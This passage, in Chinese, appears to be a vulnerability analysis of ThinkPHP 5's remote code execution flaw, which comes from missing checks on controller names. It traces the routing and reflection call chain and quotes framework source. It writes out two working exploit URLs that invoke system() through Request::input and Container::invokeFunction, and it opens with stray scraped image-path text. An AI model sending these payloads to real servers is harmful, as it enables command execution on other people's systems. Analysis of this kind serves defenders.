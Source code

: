 ```php
        ...
    }
```

漏洞产生的原因在于框架对控制器名没有进行检测,我们使用`?s=model/controller/action`传入路由

在`\think\App::run`中通过`$dispatch = $this->routeCheck()->init();`调用`\think\App::routeCheck`进行路由检测并得到`index|\think\Request|input`,然后进入`\think\route\dispatch\Url::init`,在其中有调用`parseUrl`方法进行路由解析

在`\think\route\dispatch\Url::parseUrl`中返回封装后的路由为

```php
$route = {数组} [3]
 0 = "index"
 1 = "\think\Request"
 2 = "input"
```

在`\think\route\dispatch\Url::init`的最后通过`return (new Module($this->request, $this->rule, $result))->init();`实例化了`Module`类并调用了其中的`init`方法

在`\think\route\dispatch\Module::init`中获取到了模块名,控制器名,操作名并将其设置为类的属性,最终`\think\App::run`中的`$dispatch`设置为`\think\route\dispatch\Module`类的对象并且其中包含模块名等属性

上述步骤中缺少对控制器名的检测

通过`$this->middleware->add(function (Request $request, $next) use ($dispatch, $data) {return is_null($data) ? $dispatch->run() : $data;});`和`\think\Middleware::dispatch`(中间件调度)中的`call_user_func`计入到`$dispatch->run()`中,即`\think\route\Dispatch::run`

在`\think\route\Dispatch::run`中通过`$data = $this->exec();`进入到`\think\route\dispatch\Module::exec`中

在`exec`方法中,通过`$this->app->invokeReflectMethod($instance, $reflect, $vars);`进入`\think\Container::invokeReflectMethod`中并通过调用反射执行类的方法`$reflect->invokeArgs($instance, $args)`成功进入到`\think\Request::input`中

而在`input`方法中对`filterValue`进行了调用,通过`filterValue`里面的`call_user_func`达到了RCE的目的

除了使用`?s=index/\think\Request/input&filter[]=system&data=pwd`外,还可以使用`?s=index/\think\Container/invokeFunction&function=call_user_func_array&vars[function_name]=system&vars[parameters][]=whoami`

利用`invokeFunction`中的`call_user_func_array`同样可以达到RCE的目的

```php
#thinkphp/library/think/Container.php
    /**
     * 执行函数或者闭包方法 支持参数调用
     * @access public
     * @param  mixed  $function 函数或者闭包
     * @param  array  $vars     参数
     * @return mixed
     */
    public function invokeFunction($function, $vars = [])
    {
        try {
            $reflect = new ReflectionFunction($function);

            $args = $this->bindParams($reflect, $vars);

            return call_user_func_array($function, $args);
        } catch (ReflectionException $e) {
            throw new Exception('function not exists: ' . $function . '()');
        }
    }

    /**
     * 绑定参数
     * @access protected
     * @param  \ReflectionMethod|\ReflectionFunction $reflect 反射类
     * @param  array                                 $vars    参数
     * @return array
```